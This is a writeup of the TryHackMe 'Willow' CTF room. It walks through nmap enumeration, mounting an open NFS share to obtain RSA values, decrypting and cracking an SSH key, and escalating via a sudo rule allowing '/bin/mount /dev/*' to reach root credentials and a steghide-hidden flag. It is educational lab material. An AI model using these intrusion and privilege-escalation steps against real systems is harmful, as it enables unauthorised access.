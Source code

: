 ```yaml
---
layout: post
title: Willow Writeup
date: 2020-09-12 00:00:00 +5:30
categories: [TryHackMe, Medium]
tags: [tryhackme, ctf, rsa, steg] # add tag
---
```


## Description:

The Following Post is writeup of Kiba room of tryhackme <https://tryhackme.com/room/willow>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Medium
|Creator | MuirlandOracle

## Summary

  The Room have 4 open ports 22,80,111 and 2049. The port 80 contains a recovery message which on
  decoding looks like rsa and we have open nfs share. Mounting it will give us the key to solve rsa,
  after solving it we will get ssh key of user willow. Crack it and ssh into willow.
  The user willow have mount privs using it we will get root creds and final challenge is to find Root flag which you will get from the pic of user flag.

## Walkthrough

### Enumeration

Let's start with nmap scan.

```bash
┌─[✗]─[root@parrot]─[~/Desktop/tryhackme/willow]
└──╼ $cat nmap/willow
# Nmap 7.80 scan initiated Sun Sep 13 18:07:07 2020 as: nmap -sC -sV -oN nmap/willow 10.10.254.210
Nmap scan report for 10.10.254.210
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      38881/udp6  mountd
|   100005  1,2,3      43905/tcp6  mountd
|   100005  1,2,3      55812/udp   mountd
|   100005  1,2,3      56634/tcp   mountd
|   100021  1,3,4      52147/udp   nlockmgr
|   100021  1,3,4      52486/tcp6  nlockmgr
|   100021  1,3,4      53586/udp6  nlockmgr
|   100021  1,3,4      58807/tcp   nlockmgr
|   100024  1          34623/tcp   status
|   100024  1          40424/udp6  status
|   100024  1          41269/udp   status
|   100024  1          56941/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Let's see what we can get from port 80

#### Port80

![port80](/assets/img/willow/port80.png)

we can see weird characters let's see hex to ascii and now we have some more chars encrypted.<br />

So coverting from hex gives us something which is private key.
and we know Willow is username.

![key](/assets/img/willow/somthing.png)

#### NFS

We can also see there is a network file system.<br />

```bash
┌─[root@parrot]─[~/Desktop/tryhackme/willow]
└──╼ $showmount -e 10.10.254.210
Export list for 10.10.254.210:
/var/failsafe *
```
so we can mount /var/failsafe

```bash
┌─[✗]─[root@parrot]─[~/Desktop/tryhackme/willow]
└──╼ $sudo mount 10.10.254.210:/var/failsafe ~/Desktop/tryhackme/willow/mount
[sudo] password for argenestel:
┌─[root@parrot]─[~/Desktop/tryhackme/willow]
└──╼ $ls
mount  nmap  something.txt
┌─[root@parrot]─[~/Desktop/tryhackme/willow]
└──╼ $cd mount/
┌─[root@parrot]─[~/Desktop/tryhackme/willow/mount]
└──╼ $ls -la
total 8
drwxr--r-- 2 nobody     nogroup    4096 Jan 30  2020 .
drwxr-xr-x 1 argenestel argenestel   64 Sep 13 18:52 ..
-rw-r--r-- 1 root       root         62 Jan 30  2020 rsa_keys
┌─[root@parrot]─[~/Desktop/tryhackme/willow/mount]
└──╼ $cat rsa_keys
Public Key Pair: (23, 37627)
Private Key Pair: (<redacted>)
```

we got pair for private key now we can decrypt the message we got from web server.

And yeah sshkey
![RSA](/assets/img/willow/decryptrsa.png)

### Exploitation

We need to crack the key using john and
login with willow

![idperm](/assets/img/willow/idperm.png)
![sshdone](/assets/img/willow/sshdone.png)

```bash
willow@willow-tree:/$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```

so i checked into /dev I was blind but got something interesting after few minutes.

![dev](/assets/img/willow/hidden_backup.png)

Now mounted the hidden Dir
![mount](/assets/img/willow/mounted.png)

```bash
root@willow-tree:~# cat root.txt
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
```

So we need to find flag<br />
I stuck a bit and ended up looking for writeup<br />
so we got user.jpg and we can use steghide to extract root flag.<br />
The hint was we already got flag and now we have root password.

```bash
┌─[root@parrot]─[~/Desktop/tryhackme/willow]
└──╼ $steghide extract -sf user.jpg
Enter passphrase:
wrote extracted data to "root.txt".
┌─[argenestel@parrot]─[~/Desktop/tryhackme/willow]
└──╼ $cat root.txt
```

So finally got root flag.

